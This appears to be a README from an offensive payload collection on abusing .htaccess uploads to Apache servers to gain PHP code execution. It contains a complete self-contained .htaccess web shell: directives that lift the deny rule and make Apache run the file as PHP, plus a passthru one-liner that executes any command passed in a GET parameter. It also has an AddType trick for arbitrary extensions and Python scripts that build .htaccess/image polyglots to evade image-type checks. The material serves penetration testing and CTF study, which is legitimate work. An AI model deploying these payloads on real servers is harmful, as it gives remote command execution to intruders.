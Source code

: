 # .htaccess upload

Uploading an .htaccess file to override Apache rule and execute PHP.
"Hackers can also use “.htaccess” file tricks to upload a malicious file with any extension and execute it. For a simple example, imagine uploading to the vulnerabler server an .htaccess file that has AddType application/x-httpd-php .htaccess configuration and also contains PHP shellcode. Because of the malicious .htaccess file, the web server considers the .htaccess file as an executable php file and executes its malicious PHP shellcode. One thing to note: .htaccess configurations are applicable only for the same directory and sub-directories where the .htaccess file is uploaded."

Self contained .htaccess web shell

```python
# Self contained .htaccess web shell - Part of the htshell project
# Written by Wireghoul - http://www.justanotherhacker.com

# Override default deny rule to make .htaccess file accessible over web
<Files ~ "^\.ht">
Order allow,deny
Allow from all
</Files>

# Make .htaccess file be interpreted as php file. This occur after apache has interpreted
# the apache directives from the .htaccess file
AddType application/x-httpd-php .htaccess
```

```php
###### SHELL ######
<?php echo "\n";passthru($_GET['c']." 2>&1"); ?>
```

# .htaccess simple php

Upload an .htaccess with : `AddType application/x-httpd-php .rce`   
Then upload any file with `.rce` extension.

# .htaccess upload as image

If the `exif_imagetype` function is used on the server side to determine the image type, create a `.htaccess/image` polyglot. 

[Supported image types](http://php.net/manual/en/function.exif-imagetype.php#refsect1-function.exif-imagetype-constants) include [X BitMap (XBM)](https://en.wikipedia.org/wiki/X_BitMap) and [WBMP](https://en.wikipedia.org/wiki/Wireless_Application_Protocol_Bitmap_Format). In `.htaccess` ignoring lines starting with `\x00` and `#`, you can use these scripts for generate a valid `.htaccess/image` polyglot.

```python
# create valid .htaccess/xbm image

width = 50
height = 50
payload = '# .htaccess file'

with open('.htaccess', 'w') as htaccess:
    htaccess.write('#define test_width %d\n' % (width, ))
    htaccess.write('#define test_height %d\n' % (height, ))
    htaccess.write(payload)
```
or
```python
# create valid .htaccess/wbmp image

type_header = b'\x00'
fixed_header = b'\x00'
width = b'50'
height = b'50'
payload = b'# .htaccess file'

with open('.htaccess', 'wb') as htaccess:
    htaccess.write(type_header + fixed_header + width + height)
    htaccess.write(b'\n')
    htaccess.write(payload)
```

## Thanks to

* [ATTACKING WEBSERVERS VIA .HTACCESS - By Eldar Marcussen](http://www.justanotherhacker.com/2011/05/htaccess-based-attacks.html)
* [Protection from Unrestricted File Upload Vulnerability](https://blog.qualys.com/securitylabs/2015/10/22/unrestricted-file-upload-vulnerability)
* [Writeup to l33t-hoster task, Insomnihack Teaser 2019](http://corb3nik.github.io/blog/insomnihack-teaser-2019/l33t-hoster)
